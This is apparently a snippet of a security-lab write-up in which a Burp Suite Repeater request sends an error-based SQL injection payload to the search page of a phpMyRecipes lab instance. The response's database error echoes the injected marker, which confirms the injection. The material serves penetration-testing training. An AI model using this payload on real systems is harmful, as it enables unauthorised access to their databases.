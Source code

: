 `burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /dosearch.php HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/findrecipe.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 17:03:06 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2490

<html>

[...]

      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - dosearch.php<LI>Reason - Cannot select recipe lines by instructions/name<LI>Text - BIGINT value is out of range in '(2 * if((select 'qzzqq1qxpzqx' from dual),8446744073709551610,8446744073709551610))'</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

```